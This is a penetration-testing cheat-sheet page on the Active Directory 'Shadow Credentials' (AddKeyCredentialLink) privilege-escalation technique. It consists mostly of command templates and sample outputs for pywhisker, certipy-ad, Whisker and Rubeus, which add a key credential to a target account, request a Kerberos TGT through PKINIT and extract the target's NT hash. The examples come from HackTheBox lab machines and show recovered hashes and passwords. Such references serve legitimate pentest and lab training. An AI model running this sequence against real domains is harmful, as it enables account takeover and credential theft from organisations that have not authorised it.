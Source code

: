 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["Shadow Credentials", "Pass-The-Cert", "AddkeyCredentialLink", "Active Directory", "Windows", "Whisker", "Pywhisker"]
---
```


### Privesc #1: Shadow Credential (From Linux)

{{< tab set1 tab1 >}}pywhisker{{< /tab >}}
{{< tab set1 tab2 >}}certipy-ad{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-Check \[Optional\]

```console
# Password
python3 pywhisker.py -t '<TARGET_USER>' --action list -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC_IP> --use-ldaps
```

```console {class="sample-code"}
$ python3 pywhisker.py --action list -d outdated.htb -u 'btables' -p '5myBPLPDKT3Bfq' --dc-ip 10.10.11.175 -t 'sflowers' --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute
```

```console
# NTLM
python3 pywhisker.py -t '<TARGET_USER>' --action list -d <DOMAIN> -u '<USER>' -H '<HASH>' --dc-ip <DC_IP> --use-ldaps
```

#### 1. Add Shadow Credentials

```console
# Password
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC_IP> -t '<TARGET_USER>' --use-ldaps
```

```console {class="sample-code"}
$ python3 pywhisker.py --action add -d outdated.htb -u 'btables' -p '5myBPLPDKT3Bfq' --dc-ip 10.10.11.175 -t 'sflowers' --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3c90e8fb-0405-f373-5424-32d34084ccce
[*] Updating the msDS-KeyCredentialLink attribute of sflowers
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 3p24aKIn.pfx
[*] Must be used with password: qFhAIiIMg5ys4SQYYOst
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

```console
# NTLM
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -H '<HASH>' --dc-ip <DC_IP> -t '<TARGET_USER>' --use-ldaps
```

<br>

```console
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

#### 2. Request a TGT Using the PFX

```console
sudo ntpdate -s <DC_IP> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass '<GENERATED_PASSWORD>' '<DOMAIN>/<TARGET_USER>' '<TARGET_USER>.ccache' -dc-ip <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s 10.10.11.175 && python3 gettgtpkinit.py -cert-pfx 3p24aKIn.pfx -pfx-pass 'qFhAIiIMg5ys4SQYYOst' 'outdated.htb/sflowers' sflowers.ccache -dc-ip 10.10.11.175

2024-09-23 01:48:14,567 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-09-23 01:48:14,578 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-09-23 01:48:38,986 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-09-23 01:48:38,987 minikerberos INFO     a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
INFO:minikerberos:a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
2024-09-23 01:48:38,990 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

#### 3. Get NT Hash

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
python3 getnthash.py '<DOMAIN>/<TARGET_USER>' -key <AS_REP_ENC_KEY>
```

```console {class="sample-code"}
$ python3 getnthash.py 'outdated.htb/sflowers' -key a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
1fcdb1f6015dcb318cc77bb2bda14db5
```

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# NTLM
certipy-ad shadow auto -username '<USER>@<DOMAIN>' -hashes '<HASH>' -account <TARGET_USER> -target <DC> -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ certipy-ad shadow auto -username 'haze-it-backup$@haze.htb' -hashes '735c02c6b2dc54c3c8c6891f55279ebc' -account edward.martin -target DC01.haze.htb -dc-ip 10.129.232.50
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '40c9b346-bbf0-34fa-f9f8-173872388668'
[*] Adding Key Credential with device ID '40c9b346-bbf0-34fa-f9f8-173872388668' to the Key Credentials for 'edward.martin'
[*] Successfully added Key Credential with device ID '40c9b346-bbf0-34fa-f9f8-173872388668' to the Key Credentials for 'edward.martin'
[*] Authenticating as 'edward.martin' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'edward.martin@haze.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'edward.martin.ccache'
[*] Wrote credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

{{< /tabcontent >}}

### Privesc #1: Shadow Credential (From Windows)

{{< tab set2 tab1 >}}whisker{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 0. Pre-Check \[Optional\]

```console
.\whisker.exe list /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC>
```

```console {class="sample-code"}
PS C:\programdata> .\whisker.exe list /domain:outdated.htb /target:'sflowers' /dc:10.10.11.175
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Listing deviced for sflowers:
[*] No entries!
```

#### 1. Add Shadow Credentials

```console
.\whisker.exe add /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC> /password:'<PFX_PASSWORD>'
```

```console {class="sample-code"}
PS C:\programdata> .\whisker.exe add /domain:outdated.htb /target:'sflowers' /dc:10.10.11.175 /password:'Test1234'
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 06a332a6-1ef1-4e73-bb9b-f5e5d1f9e963
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:MIIJuAIBAz .---[SNIP]--- TvhwICB9A= /password:"Test1234" /domain:outdated.htb /dc:10.10.11.175 /getcredentials /show
```

#### 2. Request a TGT Using the PFX File and Get NTLM Hash

```console
.\rubeus.exe asktgt /user:'<TARGET_USER>' /certificate:'<BASE64_PFX>' /password:'<PFX_PASSWORD>' /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

```console {class="sample-code"}
PS C:\programdata> .\Rubeus.exe asktgt /user:sflowers /certificate:'MIIJuAIBAz .---[SNIP]--- TvhwICB9A=' /password:"Test1234" /domain:outdated.htb /dc:10.10.11.175 /getcredentials /show

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 10.10.11.175:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc ---[SNIP]--- F0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  9/22/2024 10:57:36 AM
  EndTime                  :  9/22/2024 8:57:36 PM
  RenewTill                :  9/29/2024 10:57:36 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  vqosgxeFibuRzlIPfnejKQ==
  ASREP (key)              :  1E1FB4543905764478F7F129026B67A6

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>


{{< /tabcontent >}}